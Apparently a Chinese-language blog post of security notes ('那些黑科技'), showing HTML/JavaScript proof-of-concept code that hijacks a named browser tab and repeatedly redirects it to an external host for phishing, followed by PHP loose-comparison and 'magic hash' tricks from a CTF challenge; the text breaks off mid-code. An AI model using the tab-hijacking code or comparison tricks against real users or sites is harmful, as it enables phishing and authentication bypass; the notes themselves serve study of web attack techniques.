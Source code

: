 ```yaml
---
title: 那些黑科技
date: 2019-03-01 17:00:57
tags:
- 黑科技
---
```

### 远程控制地址栏
```javascript
http://675ba661.w1n.pw/41593a https://www.leavesongs.com/PENETRATION/use-target-to-spoof-fishing.html
<html>
<head><meta charset="utf-8"></head>
<body>
<a href="https://www.baidu.com" target="baidu" id="baidu" onclick="return start()">click me</a>

<script>
function start() {
    setInterval(function() {
        baidu.href="http://675ba661.w1n.pw/baidu";
        baidu.click();
    }, 10000);
}
</script>
</body>
</html>
<html>
<head><meta charset="utf-8"></head>
<body>
<a href="javascript:;" onclick="return start()">click me</a>

<script>
function start() {
    var w = window.open('https://www.baidu.com', 'baidu');
    setInterval(function() {
        w.location = 'http://675ba661.w1n.pw/baidu'
    }, 5000)
}
</script>
</body>
</html>
```
### PHP浮点精确度
```javascript
https://www.itcodemonkey.com/article/2185.html
floor((0.1+0.7)*10) 通常会返回 7 而不是预期中的 8，因为该结果内部的表示其实是类似 7.9999999999999991118…。
?year=2016.99999999999 输出2017
var_dump("0e123" == "0e456");  //true
var_dump("0e123" == "0eabc");  //flase
0e123与0e456相互不严格性质比较的时候，会将0e这类字符串识为科学技术法的数字,0的无论多少次方都是零，所以相等,输出 true

0e123与0eabc相互进行不严格性质比较的时候，本应该将0e这类字符串识为科学技术法的数字,但是这里的0e后面跟着的是abc,数学中科学计数的指数不可以包含字母。所以这里字符串中虽然是0e开头，但是后面的abc却不符合科学技法的规范，所以输出是 false

error_reporting(0);
$flag = 'flag{I_think_that_I_just_broke_md5}';
if (isset($_GET['username']) and isset($_GET['password'])) {
    if ($_GET['username'] == $_GET['password'])
        print 'Your password can not be your username.';
    else if (md5($_GET['username']) === sha1($_GET['password']))
        die($flag);
    else
```